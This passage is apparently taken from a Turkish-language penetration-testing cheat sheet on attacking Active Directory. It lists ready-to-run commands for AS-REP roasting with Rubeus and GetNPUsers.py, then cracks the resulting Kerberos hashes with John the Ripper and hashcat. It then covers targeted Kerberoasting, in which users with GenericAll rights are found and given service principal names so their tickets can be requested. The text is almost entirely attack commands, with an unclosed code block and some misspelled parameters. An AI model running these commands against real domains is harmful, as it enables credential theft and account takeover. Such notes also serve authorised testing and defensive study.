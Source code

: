 #### Rubeus Kullanarak:
```powershell
Rubeus.exe asreproast /user:UserName
Rubeus.exe asreproast /user:Administrator /format:hashcat /outfile:hash.txt
```

#### GetNPUsers.py Kullanarak:
```bash
GetNPUsers.py STEINS-DC.LOCAL/ -usersfile users.txt -outputfile hashes.txt -dc-ip 10.10.10.10
```

**6. Hash Kırma**

#### John the Ripper Kullanarak:
```bash
john krbhash --wordlist=wordlist.txt
```

#### Hashcat Kullanarak:
```bash
hashcat -m 18200 hash -a 3 rockyou.txt
hashcat -m 18200 hash rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --force
### Hedefli Kerberoasting - SPN Ayarlama

#### Adım 1: SPN Ayarlanmamış Kullanıcıları Bulma

##### PowerView Kullanarak GenericAll İzinlerine Sahip Kullanıcıları Bulma:
```powershell
Invoke-ACLScanner -ResolveGUIds | {$_.IdentityReferenceName -match "RDPUsers"}
```

##### AD Modülü Kullanarak SPN Olmayan Kullanıcıyı Bulma:
```powershell
Get-ADUser -Identity USER_Name -Properties ServicePrincipalName | Select ServicePrincipalName
```

#### Adım 2: Kullanıcı İçin SPN Ayarlama (Domain İçinde Benzersiz Olmalıdır)

##### AD Modülü Kullanarak:
```powershell
Set-ADUser -Identity USER_NAME -ServicePrincipalNames @{Add='DomainName/SomeUniqueName'} -Server steins.local
```

##### PowerView Kullanarak:
```powershell
Set-DomainObject -Identity USER_NAME -Set @{serviceprincialName = 'DomainName/SomeUniqueName'}
```

##### Veya:
```powershell
Set-ADObject -SamAccountName <TARGET_Username> -PropertyName serviceprincipalname -PropertyVale 'domainName/SomeUniqueName'
```
